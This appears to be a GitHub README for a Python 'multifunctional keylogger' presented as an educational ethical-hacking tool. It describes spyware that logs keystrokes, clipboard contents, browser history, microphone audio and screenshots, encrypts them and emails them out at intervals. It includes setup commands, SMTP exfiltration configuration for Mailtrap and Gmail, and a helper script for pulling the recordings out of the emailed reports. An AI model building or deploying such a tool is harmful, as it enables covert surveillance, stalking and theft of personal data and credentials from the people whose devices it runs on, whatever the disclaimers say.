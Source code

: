 # Multifunctional-Keylogger
 
# 🖥️ Python Keylogger – Educational Tool

> ⚠️ **DISCLAIMER**: This project is intended strictly for educational and ethical hacking purposes. Do not deploy or distribute without explicit permission from the device owner. Misuse may be illegal and punishable under cybersecurity laws.

## 💡 What It Does
This Python script is a multi-functional keylogger that collects various types of system and user input data and emails it at regular intervals.

## ✅ Features
- 🎹 Keystroke Logging (via pynput)
- 🖱️ Mouse Movement & Click Tracking
- 📋 Clipboard Capture
- 🔍 Active Window Logging
- 🌐 System Information Grabber
- 📶 Wi-Fi Information
- 📍 Geolocation Lookup
- 🧭 Chrome Browser History Extraction
- 📦 USB Devices Checker
- 🎤 Microphone Audio Recorder (10 seconds)
- 📸 Screenshot Capture (every 60s)
- 🔒 Log Encryption (Fernet)
- 📧 Email Reports (via SMTP)
- 🔁 Auto-Repeat with Threads

## 🧪 Installation

### 📦 Requirements
- Python 3.9+

Install all required modules automatically (already handled in code):
```bash
pip install pyscreenshot pynput sounddevice clipboard cryptography requests pywin32
```
Or install manually:
```bash
pip install -r requirements.txt
```

## ⚙️ Configuration
Edit these two lines in the script:
```python
EMAIL_ADDRESS = "your_mailtrap_or_smtp_email"
EMAIL_PASSWORD = "your_password_or_smtp_token"
SEND_REPORT_EVERY = 40  # interval in seconds
```

You must use a working SMTP server. This example uses Mailtrap for safe testing:
```python
with smtplib.SMTP("smtp.mailtrap.io", 2525) as server:
```

You can switch to Gmail SMTP like so:
```python
with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
```
🧠 If using Gmail, you may need to generate an App Password.

## 🚀 Running the Keylogger
Run the script:
```bash
python keylogger.py
```

## 📥 Extracting Audio/Images from EML
If you're using Mailtrap or a similar service and want to extract attached WAV recordings from `.eml` files, use `extract.py`:
```python
import email
import base64

with open("Your_file.eml", "r") as file:
    msg = email.message_from_file(file)

for part in msg.walk():
    content_type = part.get_content_type()
    content_disposition = str(part.get("Content-Disposition"))

    if content_type == "application/octet-stream" and "filename=" in content_disposition:
        filename = part.get_filename()

        audio_data = part.get_payload(decode=True)
        with open(filename, "wb") as f:
            f.write(audio_data)

        print(f"[+] Saved WAV file as: {filename}")
```

## 📂 Files & Attachments
The script collects the following:
- Logs of keystrokes and mouse activity
- Clipboard contents
- Active window titles
- System info (hostname, IP, OS, etc.)
- Wi-Fi info
- USB devices info
- Chrome browser history (top 5)
- Microphone audio (sound.wav)
- Screenshots (screenshot.png)

All files are encrypted and emailed to you and optionally auto-deleted afterward.

## 🛡️ Legal Warning
This script should never be used for spying, stalking, or stealing personal information. Use it in your own environment, for:
- Security testing
- Parental control
- Keyboard input analytics
- Ethical hacking training

## 🙋‍♂️ Author
Built with passion by an ethical hacker for practice & learning.
